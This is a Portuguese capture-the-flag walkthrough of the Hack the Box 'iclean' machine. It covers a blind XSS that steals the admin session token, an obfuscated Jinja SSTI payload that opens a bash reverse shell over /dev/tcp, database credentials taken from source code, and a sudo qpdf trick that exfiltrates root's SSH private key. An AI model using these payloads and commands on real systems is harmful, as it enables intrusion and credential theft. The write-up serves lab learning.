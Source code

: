 ```yaml
---
title: "Hack the Box - iclean"
summary: "Resolução da máquina perfection do hack the box "
tags: ["CTF", "Hack the Box"]
# externalUrl: ""
date: 2024-08-20
draft: false
showAuthor: false
authors:
  - paixao
showAuthorsBadges: false
---
```


# Reconhecimento

A princípio realizamos o mapeamento das portas abertas no nosso alvo, bem como seus serviços e versões.

```
PORT      STATE  SERVICE VERSION
22/tcp    open   ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp    open   http    Apache httpd 2.4.52 ((Ubuntu))
```

Ao tentar acessar o servidor WEB, nós somos redirecionados para o domínio capiclean.htb. Dessa forma, adicionamos a seguinte linha no nosso arquivo /etc/hosts para que esse domínio consiga ser resolvido.

```
 echo "10.10.11.12 capiclean.htb" | sudo tee -a /etc/hosts
```

Após acessar a aplicação e realizarmos uma busca na aplicação por vulnerabilidades, e nos deparamos com o endpoint "http://capiclean.htb/quote" que trouxe uma mensagem suspeita:

```
Your quote request was sent our management team. They will reach out soon via e-mail. Thanks for the interest you have shown in our services
```

Ao ler esta mensagem, automaticamente verificamos se algum parâmetro da request enviada para o admin, vulnerável a XSS, pois se fosse o caso nós poderíamos fazer a exfiltração do seu token e utilizar a app com privilégio máximo.

![Blind XSS ](blind-xss.png)

Utilizamos os payload acima para enviar o token de sessão do admin para um servidor web que que levantamos com python utilizando o comando

```
python3 -m http.server
```

Como resultado desse processo, obtivemos o token de sessão do admin
![Recebendo o token](5.png)

# Acesso inicial

De posse do token, enumeramos mais alguns endpoint da aplicação

```
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-
medium.txt:FFUZ -u http://capiclean.htb/FFUZ
```

E encontramos o endpoint 'dashboard' que tem acesso restrito. Dessa forma, adicionamos o cookie de admin no browser e conseguimos acessar o endpoint.

Seguindo o 'happy path' da aplicação nós geramos um invoice, e posteriormente tentamos acessá-lo por meio da função de geração de QRcode. Analisando os parâmetros request, nós identificamos um SSTI no parâmetro 'qr_link'

![SSTI](SSTI.png)

Uma vez que identificamos esta vulnerabilidade, nós iniciamos os testes com payloads diversos para conseguir uma shell reversa. O payload a seguir foi o que nos possibilitou acessar o sistema

```
 {{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("bash -c '/bin/bash -i >& /dev/tcp/Nosso_IP/4444 0>&1'")|attr("read")()}}
```

# Escalação de privilégio

Uma vez que conseguimos executar código na máquina alvo, realizamos uma varredura na em sua infraestrutura. Começamos pelo código fonte da aplicação. Nele encontramos algumas credenciais de banco de dados:

```python3
db_config = {
'host': '127.0.0.1',
'user': 'iclean',
'password': 'pxCsmnGLckUb',
'database': 'capiclean'
}
```

Ao verificarmos as portas abertas na aplicação, percebeu-se que a porta 3306 estava aberta. Indicando que existe um banco MySQL em execução. De posse dessa informação utilizamos as credenciais antes encontradas no código para assim consegui ter acesso aos dados do banco

```
mysql --database capiclean -e 'show databases;' -u iclean -p
```

Após isso, tentamos quebrar ambas as hashs e tivemos sucesso em quebrar apenas a hash do usuário 'consuela' que resultou na senha 'simple and clean'. Com a senha e o usuário foi feita a tentativa de logins via ssh.

```
ssh consuela@$rhost
```

Que foi bem sucedida. Agora com a shell ssh verificamos se algum comando habilitado a ser executado com privilégio de sudo.

```
sudo -l
```

Após entender do que se trata a plicação. Fizemos a seguinte suposição, se o usuário consuela tem ssh, o usuário root também deve ter ssh. Sendo sua chave privada armazenada no arquivo /root/.ssh/id_rsa, nós poderíamos mandar criar um pdf com o conteúdo da chave ssh do usuário root e direcionarmos esse pdf para um diretório acessível.

```
 sudo /usr/bin/qpdf --qdf --add-attachment /root/.ssh/id_rsa -- --empty ./id_rsa
```

Após a suposição se mostrar verdadeira, nós resgatamos a chave ssh ao verificar o conteúdo interno do pdf, nós realizamos o login via root por meio do comando

```
ssh root@$rhost -i root_ssh_key_file
```

Com isso nós temos acesso ao usuário root e podemos ver a última flag

```
cat root.txt
```
